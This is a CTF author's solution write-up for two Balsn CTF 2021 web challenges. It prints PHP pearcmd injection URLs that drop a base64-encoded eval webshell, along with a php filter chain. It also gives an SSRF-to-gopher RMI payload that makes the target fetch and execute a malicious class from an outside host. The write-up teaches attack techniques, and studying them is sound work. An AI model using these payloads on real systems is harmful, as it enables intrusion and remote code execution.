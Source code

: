 # Balsn CTF 2021

# 2linephp

- Difficulty: ★
- Type: Web
- Solved: 8 / 284
- Tag: Warmup, PHP

## Source Code

- [2linephp](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/2linephp/)

## Solution

In 2020, I have made a similar challenge in a chinese CTF (巅峰极客2020 - MeowWorld).

But the difference is that we can't use http/https and our webshell should start with `<?php`.

### Intened Solution
- `/?+channel-discover+kaibro.tw/302.php?&kaibro=/usr/local/lib/php/pearcmd`
    - 302.php will redirect to http://kaibro.tw/test.php
    - pear will download test.php to `/tmp/pear/temp/test.php`

### Unintended Solution

There are many interesting unintended solutions :D

- sol1 - command injection (from 0daysober)
    - `/?+install+-R+&kaibro=/usr/local/lib/php/pearcmd&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&kaibro=/usr/local/lib/php/pearcmd&`
    - `/index.php?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&kaibro=/usr/local/lib/php/pearcmd&'`
- sol2 - php filter (from 10sec)
    - `/?+config-create+/&eHh4eD4qKipQRDl3YUhBZ2MzbHpkR1Z0S0NSZlIwVlVXMk50WkYwcE96czdQejRn<&kaibro=/usr/local/lib/php/pearcmd&/<meow>+/tmp/meoww.php`
    - `/?kaibro=php%3a//filter/read=string.strip_tags%7Cconvert.base64-decode%7Cstring.strip_tags%7Cconvert.base64-decode/resource=/tmp/meoww&cmd=/readflag`
- and more!

## Writeups

- TBD

---

## 4pple Music

- Difficulty: ★★
- Type: Web
- Solved: 2 / 284
- Tag: Java, RealWorld, BlackBox, Pentesting

## Source Code

- [4pple Music](https://github.com/w181496/My-CTF-Challenges/blob/master/Balsn-CTF-2021/4ppleMusic/)

## Solution

1. Find the SSRF vulnerability

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close

url=http://kaibro.tw
```

2. Port Scanning to `flagserver.local`

There are many open ports on `flagserver.local`, like `34571`, `34572`, ...

If you visit http://flagserver.local:34572, you will see the following response:

```xml
<OBJECT
    NAME = "%APPLICATION%"
    classid = "clsid:8AD9C840-044E-11D1-B3E9-00805F499D93"
    codebase = "http://java.sun.com/products/plugin/autodl/jinstall-1_4_2_05-windows-i586.cab#Version=1,4,1,3"
    WIDTH = 100% HEIGHT = 100% >
    <PARAM NAME=CODE VALUE=com.ibm.sysmgt.raidmgr.mgtGUI.Launch>
    <PARAM NAME="type" VALUE="application/x-java-applet;jpi-version=1.4.2_05">
    <PARAM NAME="scriptable" VALUE="false">
    <PARAM NAME="cache_option" VALUE="Plugin">
    <PARAM NAME="cache_archive" VALUE="RaidManS.jar">
    <PARAM NAME="progressbar" value="true">
    <PARAM NAME="boxmessage" value="Loading %APPLICATION% ...">
    <PARAM NAME="progresscolor" value="blue">
    <PARAM NAME="image" value="help/scan_l.gif">
    <PARAM NAME="bgColor" VALUE="FFFFFF">
    <COMMENT>
	<EMBED
            NAME= "StorageManager"
            type = "application/x-java-applet;jpi-version=1.4.2_05"
            CODE = com.ibm.sysmgt.raidmgr.mgtGUI.Launch
            WIDTH = 100%
            HEIGHT = 100%
	        scriptable="false"
	        pluginspage="http://java.sun.com/getjava"
            image="/help/scan_l.gif"
            cache_option="Plugin"
            cache_archive="RaidManS.jar"
            progressbar="true"
            boxmessage="Loading %APPLICATION%..."
            progresscolor="blue"
            bgColor="FFFFFF">
	    <NOEMBED>
        Your browser can not load the Sun Java Applet Plugin...
        </NOEMBED>
	</EMBED>
    </COMMENT>
</OBJECT>
```

Try to google these keywords, and you will find `Adaptec Storage Manager`.

(The 404 page also tell you this is Adaptec Storage Manager Server: `Adaptec Storage Manager File Server:  Error 404.`)

So our target is to pwn this Adaptec Storage Manager server!

3. Attack RMI

If you [install Adaptec Storage Manager](https://adaptec.com/en-us/downloads/storage_manager/sm/productid=sas-3085&dn=adaptec+raid+3085.html) on your local machine or decompiling the RaidManS.jar, you will find that 34571 port is **RMI Registry** Service.

Next, you can send RMI header packet with `gopher://` to verify it:

```
url=gopher://flagserver.local:34571/_JRMI%2500%02K%2500%2500%2500%2500%2500%2500
```

->

```
N
172.18.0.3�z
```

Next step is to attack this RMI service and find the flag.

Because this service is very old (the newest release date is `25 Aug 2010`), so the jdk is very likely to be old too.

(In the old jdk version (< 6u45/7u21), if RMI can't find the class, it will try to load the class from the codebase.)

So we can try to attack the codebase, setting the codebase to our server:

```
gopher://flagserver.local:34571/_JRMI%2500%2502K%2500%2500%2500%2500%2500%2500P%25AC%25ED%2500%2505w%2522%2500%2500%2500%2500%2500%2500%2500%2502%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%25F6%25B6%2589%258D%258B%25F2%2586Cur%2500%2518%255BLjava.rmi.server.ObjID%253B%2587%2513%2500%25B8%25D0%252Cd%257E%2502%2500%2500pxp%2500%2500%2500%2500w%2508%2500%2500%2500%2500%2500%2500%2500%2500sr%2500%2510kaibro.RMILoader%2500%2500%2500%2500%2500%2500%2500%2501%2502%2500%2500t%2500%2516http%253A%252F%252F30cm.club%252F%252F%252F%252F%252F%252Fxpw%2501%2500%250A
```

This payload will download my malicious class file from `http://30cm.club/kaibro/RMILoader.class` and execute it!

=> RCE!



Note: you should use correct jdk version to compile this malicious class, you can simply send a http request to your server and observe the user-agent to know the jdk version of the RMI service:

`HTTP/1.1" 200 1395 "-" "Java/1.6.0_16"`


<br>

(Actually, this is a realworld case reproduced. Maybe it is boring, but I think it is suitable for people to learn how to attack RMI in realworld.)

## Writeups
- TBD
